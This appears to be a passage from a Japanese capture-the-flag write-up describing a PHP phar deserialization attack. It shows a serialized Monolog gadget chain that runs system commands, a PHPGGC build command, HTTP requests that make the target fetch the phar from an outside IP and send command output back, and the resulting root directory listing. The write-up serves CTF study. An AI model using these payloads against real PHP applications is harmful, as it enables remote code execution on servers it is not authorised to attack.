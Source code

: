 ```txt
pO:32:"Monolog\Handler\SyslogUdpHandler":1:{s:9:"*socket";O:29:"Monolog\Handler\BufferHandler":7:{s:10:"*handler";O:29:"Monolog\Handler\BufferHandler":7:{s:10:"*handler";N;s:13:"*bufferSize";i:-1;s:9:"*buffer";a:1:{i:0;a:2:{i:0;s:7:"ls -alt";s:5:"level";N;}}s:8:"*level";N;s:14:"*initialized";b:1;s:14:"*bufferLimit";i:-1;s:13:"*processors";a:2:{i:0;s:7:"current";i:1;s:6:"system";}}s:13:"*bufferSize";i:-1;s:9:"*buffer";a:1:{i:0;a:2:{i:0;s:7:"ls -alt";s:5:"level";N;}}s:8:"*level";N;s:14:"*initialized";b:1;s:14:"*bufferLimit";i:-1;s:13:"*processors";a:2:{i:0;s:7:"current";i:1;s:6:"system";}}}test;a`~ؤtestX
j{>ңLە"GBMB
```
ちなみにPHPGCCのコマンドを使って作成した場合は以下の通りとなった。  
```txt
$ ./phpggc -p phar -o exploit-monolog1.phar monolog/rce1 system id
$ cat exploit-monolog1.phar
<?php __HALT_COMPILER(); ?>
fO:32:"Monolog\Handler\SyslogUdpHandler":1:{s:9:"*socket";O:29:"Monolog\Handler\BufferHandler":7:{s:10:"*handler";O:29:"Monolog\Handler\BufferHandler":7:{s:10:"*handler";N;s:13:"*bufferSize";i:-1;s:9:"*buffer";a:1:{i:0;a:2:{i:0;s:2:"id";s:5:"level";N;}}s:8:"*level";N;s:14:"*initialized";b:1;s:14:"*bufferLimit";i:-1;s:13:"*processors";a:2:{i:0;s:7:"current";i:1;s:6:"system";}}s:13:"*bufferSize";i:-1;s:9:"*buffer";a:1:{i:0;a:2:{i:0;s:2:"id";s:5:"level";N;}}s:8:"*level";N;s:14:"*initialized";b:1;s:14:"*bufferLimit";i:-1;s:13:"*processors";a:2:{i:0;s:7:"current";i:1;s:6:"system";}}}dummye`~ؤtest.txte`~ؤtesttest+eE㦶#h)z'GBMB
```
- **payload**  
まず以下でexplot.pharの内容を`/var/www/html/tmp/cache/mycache/CLIENT_IP/MD5(http://IP/exploit.phar)/body.cache`に書き込む  
```txt
GET http://13.230.134.135/?url=http://IP/exploit.phar
```
次に`phar://`で読み込んでRCEする。実行結果は`?url=`に送信される。  
```txt
POST http://13.230.134.135/?url=http://IP&data[test]=@phar:///var/www/html/tmp/cache/mycache/CLIENT_IP/MD5(http://IP/exploit.phar)/body.cache
```
```txt
total 104
drwxr-xr-x  26 root root  1000 Oct 21 11:08 run
drwxrwxrwt   2 root root  4096 Oct 21 06:25 tmp
-rwsr-sr-x   1 root root  8568 Oct 18 19:53 read_flag
drwxr-xr-x  23 root root  4096 Oct 18 19:53 .
drwxr-xr-x  23 root root  4096 Oct 18 19:53 ..
drwx------   5 root root  4096 Oct 18 17:12 root
drwxr-xr-x  90 root root  4096 Oct 18 11:23 etc
dr-xr-xr-x  13 root root     0 Oct 16 07:57 sys
-r--------   1 root root    54 Oct 15 19:49 flag
drwxr-xr-x   4 root root  4096 Oct 15 19:41 home
drwxr-xr-x   3 root root  4096 Oct  9 06:07 boot
lrwxrwxrwx   1 root root    31 Oct  9 06:07 initrd.img -> boot/initrd.img-4.15.0-1023-aws
lrwxrwxrwx   1 root root    28 Oct  9 06:07 vmlinuz -> boot/vmlinuz-4.15.0-1023-aws
drwxr-xr-x   2 root root  4096 Oct  9 06:07 sbin
lrwxrwxrwx   1 root root    14 Oct  8 17:14 www -> /var/www/html/
drwxr-xr-x  14 root root  4096 Oct  8 17:13 var
drwxr-xr-x   5 root root  4096 Oct  8 17:06 snap
drwxr-xr-x  15 root root  2980 Oct  8 17:06 dev
dr-xr-xr-x 136 root root     0 Oct  8 17:06 proc
lrwxrwxrwx   1 root root    31 Sep 12 16:16 initrd.img.old -> boot/initrd.img-4.15.0-1021-aws
lrwxrwxrwx   1 root root    28 Sep 12 16:16 vmlinuz.old -> boot/vmlinuz-4.15.0-1021-aws
drwxr-xr-x  20 root root  4096 Sep 12 16:16 lib
drwx------   2 root root 16384 Sep 12 16:10 lost+found
drwxr-xr-x   2 root root  4096 Sep 12 15:59 bin
drwxr-xr-x   2 root root  4096 Sep 12 15:56 lib64
drwxr-xr-x  10 root root  4096 Sep 12 15:55 usr
drwxr-xr-x   2 root root  4096 Sep 12 15:55 media
drwxr-xr-x   2 root root  4096 Sep 12 15:55 opt
drwxr-xr-x   2 root root  4096 Sep 12 15:55 mnt
```